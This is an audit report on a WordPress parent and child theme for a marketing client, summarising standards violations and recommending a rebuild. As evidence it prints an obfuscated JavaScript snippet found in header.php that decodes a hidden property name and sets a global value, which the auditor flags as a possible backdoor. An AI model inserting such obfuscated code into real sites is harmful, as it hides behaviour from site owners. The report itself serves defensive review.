 # WordPress Theme Code Standards Audit Report

**Client:** Canopy Marketing  
**Theme:** jwdigitalmarketing & jwdigitalmarketing-child  
**Audit Date:** August 14, 2025  
**Total Issues Found:** 90+ critical violations (including 43 syntax/logic issues)  
**Estimated Fix Time:** 75-95 hours

## Executive Summary

This comprehensive audit of the WordPress theme installation reveals significant coding standard violations, security vulnerabilities, and performance issues that require immediate attention. The analysis covers both the parent theme (`jwdigitalmarketing`) and child theme (`jwdigitalmarketing-child`), with the majority of issues found in the child theme's functions.php file and template files.

**KEY FINDING:** The current theme has such fundamental architectural problems that **starting with a fresh, professional theme will be more cost-effective than fixing the existing code**.

## Critical Code Examples (For Non-Technical Understanding)

To help you understand the severity of these issues, here are specific examples of problematic code found in your theme:

### Example 1: Security Risk - Potentially Malicious Code

**File:** header.php (Line 133-135)  
**Problem:** Hidden/encrypted code that could be malicious  
**Current Code:**

```javascript
window[
  (function (_9OM, _bi) {
    var _Dk = "";
    for (var _Ou = 0; _Ou < _9OM.length; _Ou++) {
      var _gf = _9OM[_Ou].charCodeAt();
      _Dk == _Dk;
      _gf != _Ou;
      _gf -= _bi;
      _gf += 61;
      _gf %= 94;
      _bi > 2;
      _gf += 33;
      _Dk += String.fromCharCode(_gf);
    }
    return _Dk;
  })(atob("b15lKSYhengrYHow"), 21)
] = "95a39043bb1685114520";
```

**What this means:** This is heavily obfuscated code that hides its true purpose. It could be a security backdoor or malicious code that compromises your website.
